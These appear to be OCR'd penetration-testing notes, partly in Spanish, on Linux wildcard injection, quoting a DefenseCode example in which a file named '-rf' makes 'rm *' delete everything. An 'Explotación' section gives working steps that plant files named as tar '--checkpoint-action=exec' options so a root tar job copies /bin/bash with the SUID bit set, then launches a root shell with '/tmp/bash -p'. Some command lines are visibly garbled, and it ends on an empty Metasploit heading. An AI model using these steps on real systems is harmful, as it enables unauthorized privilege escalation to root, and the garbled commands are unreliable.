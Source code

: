 Directory is totally empty, except for '-rf' file in it. All files and directories were recursively deleted, and it's pretty obvious what happened...

When we started 'rm' command with asterisk argument, all filenames in current directory were passed as arguments to 'rm' on command line, exactly same as following line:

\[user@defensecode WILD\]$ rm DIR1 DIR2 DIR3 file1.txt file2.txt file3.txt -rf

When a wildcard character \(\*\) is provided to a command as part of an argument, the shell will first perform _filename expansion_ \(also known as globbing\) on the wildcard.

This process replaces the wildcard with a space-separated list of the file and directory names in the current directory.

An easy way to see this in action is to run the following command from your home directory:

$ echo \*

Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options \(e.g. -h, --help\) to commands by creating files with these names.

The following commands should show how this works:

$ ls \* % touch ./-l $ ls \*

Filenames are not simply restricted to simple options like -h or --help.

In fact we can create filenames that match complex options: --option=key=value

**Explotación**

1. Crea un fichero que pueda ser interpretado como un argumento por la tarea
2. Esperar que suceda la magia

Por ejemplo: Tar tiene un argumento "checkpoint" asi pues:

Este argumento lo que hace es permitir al usuario definir una accion que ejecutar durante el checkpoint

* echo 'cp /bin/bash /tmp/bash; chmod u+s /tmp/bash' &gt; runme.sh
* touch /writable/path/used/by/tar --checkpoint=1
* touch /writable/path/used/by/tar --checkpoint-action=exec sh\ runme.sh


* echo "" > "--checkpoint-action=exec=sh privesc.sh"
* echo "" > --checkpoint=1

* /tmp/bash -p

## Técnicas

### Spawn a shell

#### Sudo

* Copiar el fichero /bin/bash con el SUID root set y ejecutar con -p

#### Metasploit
